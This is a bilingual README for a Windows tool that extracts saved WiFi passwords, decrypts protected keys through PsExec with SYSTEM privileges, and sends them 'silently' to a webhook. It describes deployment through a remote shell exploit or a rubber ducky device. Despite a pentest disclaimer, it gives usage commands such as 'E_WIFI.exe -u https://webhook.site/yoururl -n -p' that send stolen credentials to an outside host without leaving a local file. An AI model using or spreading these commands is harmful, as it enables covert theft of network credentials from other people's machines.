 # WIFI_Extractor

<b>*DISCLAIMER*

This is not made for illegal or malicious purposes, I consider it like a post-exploitation tool with legal authority before of use in whatever location you are doing your pentest to check weak and reutilization of passwords, I'm not responsible of any malicious acts that you may do.

Esto no está hecho con fines ilegales o maliciosos, lo considero como una herramienta de post-explotación con autoridad legal antes del uso en cualquier lugar donde esté haciendo su pentest para verificar la debilidad y la reutilización de contraseñas, no soy responsable de cualquier acto malicioso que puedas hacer.
</b>

if you run it with python you might need this requeriments

Si lo ejecutas con python tal vez podrias necesitar estos requerimientos


pip install click

pip install elementpath

pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used "offline", physically (rubber ducky).
It can detect protected local passwords and try to decrypt it, you must need at least a cmd with admin privileges to be more successful, then with the help of PsExec it will try to open a system shell and execute wdecryptor with the key


Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
También se puede usar "offline", físicamente con un pendrive(rubber ducky).
Puede detecar contraseñas protegidas localmente y tratar de descriptarlas, necesitaras al menos una cmd con privilegios de admin para tener mas probabilidad de éxito, luego con la ayuda de PsExec tratará de ejecutar wdecryptor con la key.


<b>Usage: E_WIFI.exe [OPTIONS]


Options:

  -u, --url TEXT      Webhook/POST URL
  
  -n, --no-txt        No crea el archivo txt | Doesn't create the txt file
  
  -v, --version       Imprime la version | Prints the version
  
  -p, --print-output  Muestra la salida en la terminal | Shows the output in
                      the terminal
                      
  -a, --admin         Indica si la consola actual tiene privilegios de admin |
                      Indicates if the current console has admin privileges
                      
  --help              Show this message and exit.
  
  
  </b>

<b>* Offline</b>

python3 E_WIFIoffline.py


CMD or Powershell E_WIFIoffline.exe | ./E_WIFIoffline.exe (You can also double click it)

Creates a txt with the WIFI's ssid and passwords stored in the local machine

Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

<b>* Online</b>

Usages

default usage

python3 E_WIFI.py


CMD or Powershell E_WIFI.exe | ./E_WIFI.exe

Creates a txt with the WIFI's ssid and passwords stored in the local machine

Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

<b>Another Example</b>

python3 E_WIFI.py -u https://webhook.site/yoururl -n -p 

CMD or Powershell E_WIFI.exe | ./E_WIFI.exe -u https://webhook.site/yoururl -n -p

type --help for more detailed info

PD: 

    THE TXT IS CREATED BY DEFAULT -n TURN IT OFF

    EL TXT SE CREA POR DEFECTO -n APAGA LA CREACION

<b>* V1.3 and Wdecryptor Examples</b>

Quick Example of the new function (in the following hours I will update a more detailed one)

Ejemplo rapido de la nueva funcion (en las siguientes horas actualizare con unos ejemplos mas detallados)

E_WIFI.exe -p -a -u https://webhooksite...
![ejemplo nueva funcion](https://user-images.githubusercontent.com/74321905/225491588-1b1c1de4-0fa2-4981-8aa7-317983d13d6a.png)

"-a" will answer automatically with "Y" because it indicates that the current console is with admin privileges at least if you don't put this option you will need to put manually the option

"-a" respondera automaticamente con "Y" porque indica que la consola actual tiene al menos privilegios de administrador, si no pones esta opcion tendras que responder manualmente

You will see that in the webhook it will be sent with the decrypted password

Podras ver en el webhook que sera enviado con la contrasena desencriptada
![ejemplo nueva funcion2](https://user-images.githubusercontent.com/74321905/225492226-b03d05e1-4f79-4f88-b872-04df838bc34d.png)

<b>* Using Wdecryptor manually</b>

Also you can use the E_WIFI to extract the keys and then manually use Wdecryptor with an opened system authority cmd

Tambien podras usar E_WIFI para extraer las keys y luego manualmente usar wdecryptor con una cmd abierta con system authority

![ejemplo nueva funcion3](https://user-images.githubusercontent.com/74321905/225493385-921a6a0f-230c-4a2f-a83c-fa020282db92.png)

it will be saved in a "decrypted.txt" file also with the following format "Encrypted Key : Decrypted"

tambien se guardara en un archivo "decrypted.txt" con el siguiente formato "Key Encriptada : Descriptada"
